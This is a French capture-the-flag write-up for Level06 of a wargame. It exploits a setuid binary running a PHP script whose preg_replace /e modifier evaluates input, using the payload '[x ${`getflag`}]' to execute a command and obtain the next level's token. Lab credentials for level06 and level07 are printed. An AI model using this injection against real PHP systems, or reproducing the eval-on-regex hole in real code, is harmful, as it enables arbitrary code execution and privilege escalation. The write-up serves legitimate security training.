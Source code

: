 # Level06

> login:password -> *`level06:viuaaale9huek52boumoomioc`*
```
:~$ su level06
Password:viuaaale9huek52boumoomioc
```
---

```
:~$ pwd
/home/user/level06
```

```
:~$ ls -la
...
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
...
```

Le Home contient un binaire ainsi qu'un script php:

```
:~$ cat level.php (ici j'ai indenté le code pour mieux le comprendre)
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>

:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

./level06 test
PHP Warning:  file_get_contents(test): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

```

On remarque que le binaire veux exécuter le fichier envoyé en paramètre. On va donc créer un script qu'il pourra alors éxécuter

```
:~$ echo '[x ${`getflag`}]' > /tmp/flag

:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

Le flag nous permet de se connecter au level07
`level07:wiok45aaoguiboiki2tuin6ub`